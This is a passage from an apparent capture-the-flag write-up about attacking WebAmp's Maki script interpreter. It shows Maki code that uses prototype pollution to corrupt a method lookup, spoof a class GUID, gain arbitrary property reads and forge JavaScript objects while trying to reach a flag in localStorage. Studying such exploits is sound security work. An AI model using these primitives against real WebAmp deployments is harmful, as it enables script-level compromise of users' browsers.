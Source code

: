 ```maki
// corrupt index 0xff to point to getitem with an undefined returnType
// to avoid assertions on return when we return a non-boolean value from bitlist
Config x = new Config; // needs to be any object, type doesn't really matter
System.getPrivateString("__proto__", "255", x);
System.getPrivateString("__proto__", "name", "getitem");
System.getPrivateString("__proto__", "undefined", "87c6577849fee743cc09f98556fd2a53");
```

What's up with the define of `undefined` to `"87c6577849fee743cc09f98556fd2a53"`? Well, since `typeOffset` is `undefined`, we'll result in accessing `this.classes[undefined]`. We'll spoof that to return the hash. Then, if we look at the class resolver:

```typescript
// maki/objects.ts
export function getClass(id: string): ObjectDefinition {
  return normalizedObjects[getFormattedId(id)];
}
```

`"87c6577849fee743cc09f98556fd2a53"` corresponds to the GUID of `BitList`, so this will just make sure that our spoofed method has the appropriate class (which is needed to actually resolve the JavaScript function that the Maki interpreter calls).

### Attempting to Get The Flag (and Failing)

Hm, surely now that we have an arbitrary read we can just grab the flag? After all, the only thing we need to do is get to `localStorage.flag`, which doesn't involve any function calls. Let's use some internal WebAmp properties to get access to `window`, then just read the storage:

```maki
// The actual code for this is way too long, but assume that it's just more of the
// arbitrary property reading using setitem(__proto__, x); getitem(y) to get x[y].
Object flag = getObject(anyObject, "_uiRoot._div.ownerDocument.defaultView.localStorage.flag");
```

Nope, unfortunately we run into a fun JavaScript quirk. You see, `ownerDocument` is not actually a property of `HTMLDivElement` directly. Instead, it is a property getter, whose getter implementation is a native method. When we overwrite the `__proto__` of `this._items`, our `this` is no longer a `HTMLDivElement`, but rather an array instance whose prototype is the `HTMLDivElement`. This results in an illegal call exception when the native code inevitably realizes it's attempting to read the `ownerDocument` of an `Array`.

We'll need to find a way of reading properties that does not involve prototype hackery.

### Constructing Objects

Let's hold off on that for a second, and briefly discuss how we can create objects. We'll need to write some fields later that require us to be able to create arbitrary JavaScript objects. The Maki VM doesn't give us a way to do that in the language itself, so we'll need to abuse BitList.

Creating arbitrary "objects" is not actually hard with our primitives. We can abuse `setitem` to write arbitrary properties into `this._items`, then we can use a _second_ BitList to obtain the `_items` of the first one, giving us an array instance with our additional fields grafted onto it:

```maki
BitList grabber = new BitList;

BitList ourObj = new BitList;
ourObj.setitem("foo", 1);
ourObj.setitem("bar", 2);

grabber.setitem("__proto__", ourObj);
grabber.getitem("_items") // returns an array instance that also has properties `foo` and `bar`
```
